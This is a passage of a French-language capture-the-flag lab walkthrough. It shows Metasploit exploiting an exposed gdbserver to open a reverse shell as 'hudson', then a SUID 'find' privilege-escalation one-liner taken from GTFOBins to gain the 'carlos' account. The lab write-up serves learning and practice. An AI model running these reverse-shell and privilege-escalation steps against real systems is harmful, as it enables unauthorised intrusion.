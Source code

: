 ```
   EXE_FILE  /bin/true        no        The exe to spawn when gdbserver is not attached to a process.
   RHOSTS    10.10.80.229     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     6048             yes       The target port (TCP)


Payload options (linux/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  10.10.80.229     no        The target address


Exploit target:

   Id  Name
   --  ----
   1   x86_64
```
Me voila enfin avec un shell :
```
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.11.50.195:4444 
[*] 10.10.80.229:6048 - Performing handshake with gdbserver...
[*] 10.10.80.229:6048 - Stepping program to find PC...
[*] 10.10.80.229:6048 - Writing payload at 00007ffff7fd0df0...
[*] 10.10.80.229:6048 - Executing the payload...
[*] Command shell session 2 opened (10.11.50.195:4444 -> 10.10.80.229:42148) at 2024-07-22 17:23:25 -0400

id
uid=1001(hudson) gid=1001(hudson) groups=1001(hudson)
```
# Post-Exploitation
On arrive donc bien sur le serveur avec la session de **hudson**.

Je trouve ce script **app.py** dans **/home/hudson/app/app.py**, il s'agit du site en gros.

# Privesc
Avec linpeas, je retrouve ceci :
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                     
-rwsr-xr-x 1 carlos carlos 313K Feb 18  2020 /usr/bin/find  
```
Je prend le shell de **carlos** avec la commande suivante (trouver sur GTFOBins)
```
/usr/bin/find . -exec /bin/sh -p \; -quit
```
Ce shell étant un peu... claqué ? Je créer une clé ssh et je me connecte sur le serveur avec SSH avec le compte de **carlos**
